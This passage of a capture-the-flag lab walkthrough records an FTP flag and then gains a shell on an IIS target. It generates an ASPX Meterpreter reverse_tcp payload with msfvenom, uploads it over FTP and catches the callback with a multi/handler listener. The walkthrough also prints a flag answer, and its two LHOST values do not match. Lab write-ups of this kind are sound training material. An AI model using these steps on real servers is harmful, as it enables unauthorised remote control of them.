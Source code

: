 We have successfully connected to the FTP server. To view the contents, type the `dir` or ls command.

![a2c7b631c58ca9af02987e0b5bd88b67.png](../../../_resources/a2c7b631c58ca9af02987e0b5bd88b67.png)

Here, we find our third flag, which is:

![1134281f27c41e62c706855315c8c9b8.png](../../../_resources/1134281f27c41e62c706855315c8c9b8.png)

![10238212c36c9ab4987d196797c1434b.png](../../../_resources/10238212c36c9ab4987d196797c1434b.png)

7f4d86e443f04d4fabde5caf6d7a3074

**Flag4 : Can you compromise the target machine and retrieve the C://flag4.txt file?**

After further analysis, we see that port 80 is open and we have FTP access. Enumeration shows that FTP is linked to this port, meaning any files uploaded will be reflected on the website. Since the server is running IIS, we can upload an ASPX shell.

**Note**: Use your IP address for LHOST.

![05da0cdf8521154cc56d7c1d14151f5b.png](../../../_resources/05da0cdf8521154cc56d7c1d14151f5b.png)

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.40.5 LPORT=1234 -f aspx > shell.aspx

![ef0ee8fffde13e5932cad363b1823111.png](../../../_resources/ef0ee8fffde13e5932cad363b1823111.png)

Upload the shell to FTP using the `put` command.

![d9b83278d6828505d93d50a38742ff7b.png](../../../_resources/d9b83278d6828505d93d50a38742ff7b.png)

Then, use the `msfconsole` module `/multi/handler` to handle the incoming connection.

search multi/handler

![9ef43a933edb8592ef5fabc8016a1f21.png](../../../_resources/9ef43a933edb8592ef5fabc8016a1f21.png)

Set these three parameters: `PAYLOAD`, `LHOST`, and `LPORT`, which were configured in the `msfvenom` payload.

set PAYLOAD windows/x64/meterpreter/reverse_tcp  
set LHOST 10.10.40.6  
set LPORT 1234  
run

![5f4044f11d397df13f38277611761987.png](../../../_resources/5f4044f11d397df13f38277611761987.png)

Navigate to http://target.ine.local/shell.aspx in the browser. You should observe that we have successfully obtained the shell.

![a1d2e39ca94dec873fde6698cc8fec31.png](../../../_resources/a1d2e39ca94dec873fde6698cc8fec31.png)

![a48022169b6a74fdfbbe5fb4cef99afa.png](../../../_resources/a48022169b6a74fdfbbe5fb4cef99afa.png)

![e9e5323cdd69702b0ceb618f961255fb.png](../../../_resources/e9e5323cdd69702b0ceb618f961255fb.png)
